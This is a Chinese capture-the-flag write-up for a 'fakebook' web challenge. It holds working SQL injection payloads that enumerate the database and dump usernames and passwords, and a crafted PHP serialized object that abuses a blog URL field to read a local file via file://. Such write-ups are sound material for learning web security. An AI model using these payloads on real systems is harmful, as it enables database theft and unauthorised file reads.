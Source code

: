 显著点为2

爆库

```
view.php?no=0 union/**/select 1,database(),3,4--+  //fakebook
```

爆表

```
view.php?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'--+  //user
```

爆列

```
view.php?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema='fakebook' and table_name='users'--+   //no,username,passwd,data
```

爆数据

```
view.php?no=0 union/**/select 1,group_concat(no,username,passwd,data),3,4 from users--+
```

发现我们注册的blog是以序列化存入的

```
O:8:"UserInfo":3:{s:4:"name";s:3:"qqq";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";} 
```

data是一个序列化的字符串，据此构造我们的ssrf的payload因为网站没做任何过滤。

```php
<?php

class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";
	
}

$a = new UserInfo();
echo serialize($a);
?>
```

传入

```php
view.php?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' --+
```

打开页面源代码看到一串base64点开就是flag。
